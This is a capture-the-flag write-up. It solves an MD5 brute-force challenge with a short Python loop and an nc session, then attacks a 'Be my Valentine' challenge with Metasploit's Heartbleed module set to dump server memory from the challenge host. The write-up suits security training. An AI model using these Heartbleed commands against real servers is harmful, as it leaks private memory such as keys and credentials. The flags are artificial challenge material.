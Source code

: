 ```python
#!/usr/bin/env python3

import hashlib
import string

i = 0
while True:
    to_hash = f'{i}Pinkflood'
    h = hashlib.md5(to_hash.encode()).hexdigest()

    if set(h).issubset(string.digits):
        print(f'md5({to_hash}) = {h}')
        break
    i += 1


# md5(1140633Pinkflood) = 26062149783494508159682139582576
```

```bash
$ nc 51.75.202.113 20002
Welcome to this challenge !
You must find a good string
1140633Pinkflood
Congratz!!
Flag : IMTLD{Brut3F0rc31sTh3N3wBl4ck}
```

`IMTLD{Brut3F0rc31sTh3N3wBl4ck}`

---
## 400 Be my Valentine
---

> Take care of your heart (maybe also eyes)
> 51.75.202.113:1073

* ssl cert different from others site pages

metasploit
```bash
$ sudo  docker run --rm -it -p 443:443 -v ~/.msf4:/root/.msf4 -v /tmp/msf:/tmp/data remnux/metasploit
metasploitdocker
$ msfconsole
> msf5 search heartbleed
> msf5 use auxiliary/scanner/ssl/openssl_heartbleed
> show actions
> set action DUMP
> set RHOSTS 51.75.202.113
> set RPORT 1073
> set TLS_VERSION 1.2
> set VERBOSE true
> run
```
